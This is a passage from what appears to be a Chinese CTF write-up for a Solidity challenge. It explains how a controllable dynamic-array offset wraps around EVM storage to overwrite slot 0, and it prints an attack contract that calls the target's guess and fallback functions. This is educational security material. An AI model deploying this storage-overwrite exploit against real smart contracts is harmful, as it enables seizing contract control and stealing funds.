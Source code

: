 而token就是第一个全局变量，则**storage[0]就存了token变量**。

然后回到我们前面的需求，我们怎么才有可能覆盖storage的第一块数据呢，让我们再回到代码。guess中有这么一段代码。

```
map[uint256(msg.sender)+x] = blockNum;
```

在EVM中数组和其他类型不同，因为数组时动态大小的，所以数组类型的数据计算方式为
```
address(map_data) = sha(array_slot)+offset
```
其中array_slot就是map变量数据的位置，也就是1，offset就是数组中的偏移，比如map[2]，offset就是2.

这样一来，map[2]的地址就是`sha(1)+2`，假设map[2]=2333，则`storage[sha(1)+2]=2333`。

这样一来就出现问题了，由于offset我们可控，我们就可以向storage的任意地址写值。

再加上storage不是无限大的，它最多只有2**256那么大，sha(1)是固定的0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6。

也就是说我们设置x为`2**256-0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`，storage就会溢出，并覆盖token变量。

所以思路就比较清楚了，构造攻击合约，然后定义balanceOf返回0，调用fallback函数，然后返回即可。

利用合约大致如下
```
pragma solidity ^0.4.21;

contract dvp_attack {
    address public targetaddr;
    
    constructor(address addr) payable{
        targetaddr = addr;
    }
    
    function balanceOf(address addr) public returns(uint i){
        i = 0;
    }
    
    function attack(uint256 x,uint256 blockNum){
        // modity owner
        targetaddr.call(bytes4(keccak256("guess(uint256,uint256)",x,blockNum)));
        // fallback
        targetaddr.call(bytes4(keccak256("a")));
    }
}
```

# 在题目之后

在题目之后，我们不难发现，整个漏洞的成因与未初始化storage指针非常像，要明白这个漏洞，首先我们需要明白在EVM中对变长变量的定义和储存方式。

## array
```
uint256[] map;
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7dvoippf9k5s0o23rh7kv4ur/image.png